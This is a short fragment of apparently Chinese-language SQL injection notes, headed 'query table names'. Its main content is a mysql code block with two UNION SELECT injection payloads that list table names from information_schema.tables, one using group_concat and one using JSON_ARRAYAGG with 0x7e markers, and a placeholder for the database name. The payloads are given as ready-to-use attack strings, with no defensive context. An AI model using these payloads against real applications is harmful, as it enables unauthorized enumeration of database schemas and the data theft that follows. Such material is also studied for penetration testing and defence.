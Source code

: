 ![image-20250221230137292](static/image/image-20250221230137292.png)

#### 查询表名

```mysql
union select null,group_concat(table_name),null from information_schema.tables where table_schema=数据库名

UNION ALL SELECT NULL,CONCAT(0x7e,JSON_ARRAYAGG(CONCAT_WS('',table_name)),0x7e),NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=数据库名
```
